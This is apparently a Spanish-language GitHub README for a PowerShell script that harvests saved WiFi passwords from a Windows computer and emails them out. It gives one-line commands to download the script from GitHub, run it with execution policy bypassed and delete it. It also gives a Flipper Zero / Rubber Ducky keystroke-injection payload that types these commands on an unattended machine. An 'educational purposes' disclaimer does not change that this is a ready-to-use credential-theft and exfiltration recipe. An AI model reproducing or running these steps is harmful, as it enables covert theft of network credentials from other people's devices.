# WiFi Credentials Exporter

Este repositorio contiene un script de PowerShell que exporta los perfiles de WLAN de una computadora, obtiene las claves de WiFi guardadas y las envía por correo electrónico en formato HTML.

## Descargo de Responsabilidad

**Este script es proporcionado con fines educativos. El uso indebido de este script para acceder a redes WiFi sin autorización es ilegal y contrario a la ética. El autor no se hace responsable de ningún daño o consecuencia legal que pueda resultar del uso indebido de este script.**

## Uso

Para utilizar este script, sigue estos pasos:

1. **Descargar y Ejecutar el Script Manualmente**: Puedes descargar el script `wifi_credentials.ps1` directamente desde GitHub y ejecutarlo manualmente en PowerShell.
   ```powershell
   Invoke-WebRequest -Uri "https://raw.githubusercontent.com/alejandro001100/wifi_credentials.ps1/main/wifi_credentials.ps1" -OutFile "$env:TEMP\wifi_credentials.ps1"
   powershell -ExecutionPolicy Bypass -File "$env:TEMP\wifi_credentials.ps1"
   Remove-Item "$env:TEMP\wifi_credentials.ps1"
2.  **Usar con Flipper Zero:** Si deseas utilizar este script con un dispositivo USB Rubber Ducky (Flipper Zero), puedes utilizar el siguiente DuckyScript:
```powershell
DELAY 1000
GUI r
DELAY 500
STRING powershell
ENTER
DELAY 1000

STRING Invoke-WebRequest -Uri "https://raw.githubusercontent.com/alejandro001100/wifi_credentials/main/wifi_credentials.ps1" -OutFile "$env:TEMP\wifi_credentials.ps1"
ENTER
DELAY 5000

STRING powershell -ExecutionPolicy Bypass -File "$env:TEMP\wifi_credentials.ps1"
ENTER
DELAY 10000

STRING Remove-Item "$env:TEMP\wifi_credentials.ps1"
ENTER
DELAY 1000

STRING exit
ENTER

